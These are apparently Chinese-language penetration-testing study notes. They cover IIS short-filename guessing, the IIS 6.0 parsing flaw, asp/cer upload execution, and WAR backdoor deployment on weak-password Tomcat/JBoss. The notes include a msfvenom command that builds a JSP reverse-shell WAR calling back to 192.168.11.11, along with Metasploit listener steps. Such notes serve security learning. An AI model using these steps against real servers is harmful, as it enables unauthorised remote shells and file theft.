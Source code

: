 使用桂林老兵作品可以随便上传文件

![stickPicture.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image28.png){width="5.760416666666667in"
height="4.337155511811024in"}

**IIS 短文件名猜解：**

形成原因就是因为有些文件对应的短文件名没清除

举个例子，有一个数据库备份文件
backup_www.abc.com_20190101.sql，它对应的短文件名是 backup\~1.sql
。因此黑客只要暴力破解出 backup\~1.sql
即可下载该文件，而无需破解完整的文件名。

用 dir /x 查看短文件名对应的一些文件

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image29.png){width="5.527777777777778in"
height="4.735115923009624in"}

猜解方法

例如：我们创建一个test.aspx的文件进行测试，猜测该文件的路径。

首先，根据访问构造的某个存在的短文件名，会返回404可知，路径存在，且未知路径的最后一位是1；

然后尝试给该文件路径未知部分增加前缀，继续访问如下：

访问构造的某个不存在的短文件名时，会返回400。推断该路径的第一位不是字母c。

**IIS解析漏洞：**

一般是windows server 2003 才有IIS6.0

\<IIS 6.0

当建立\*.asa,\*.asp的格式的文件夹时，其目录的所以文件都当IIS的asp文件来解析

**tomcat/jboss war 后门部署文件：**

影响所有弱密码的tomcat/jboss

破解密码入后门找到上传点

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.11 LPORT=4444 -f
war \> shell.war

生成木马war

use exploit/multi/handler

payload java/shell_reverse_tcp

监听

**asp网站默认配置漏洞**

只要是后面是asp.dll的都可以执行所以其中cer后缀和asp后缀是默认执行的后缀。如果可以上传cer或asp就可以写个木马拿到shell

![微信截图_20220708152045.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image30.png){width="5.760416666666667in"
height="4.045117016622922in"}
